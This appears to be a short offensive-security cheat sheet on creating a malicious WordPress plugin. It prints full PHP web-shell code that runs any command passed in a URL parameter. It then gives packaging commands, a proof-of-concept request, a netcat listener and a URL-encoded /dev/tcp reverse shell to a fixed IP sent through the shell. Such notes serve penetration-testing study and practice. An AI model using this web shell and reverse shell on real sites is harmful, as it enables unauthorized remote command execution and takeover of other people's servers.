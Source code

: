**Create the plugin from scratch:**
mkdir malicious_shell_plugin/
cd malicious_shell_plugin/
sudo nano malicious-plugin.php

**CODE:**
```
<?php
/*
Plugin Name: Malicious wordpress plugin
Description: A plugin with a web shell.
Version: 1.1337
Author: 1337 
*/

if (isset($_GET['cmd'])) {
    echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';
}
?>
```
sudo chmod +x malicious-plugin.php
zip -r shell_plugin.zip shell_plugin

**Check if file is there**
http://1337.codes/wp-content/plugins/shell_plugin/

**Proof of concept:**
http://1337.codes/wp-content/plugins/shell_plugin/malicious-plugin.php?cmd=id

**Setup a listener:**
┌──(kali㉿kali)-[~/Desktop]  
└─$ nc -lvnp 4444

**Pick a shell from https://www.revshells.com/**
sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.201%2F4444%200%3E%261

**Make it beter with bash -c "COMMAND"**
bash%20-c%20"sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.201%2F4444%200%3E%261"
http://1337.codes/wp-content/plugins/shell_plugin/malicious-plugin.php?cmd=bash%20-c%20"sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.201%2F4444%200%3E%261"

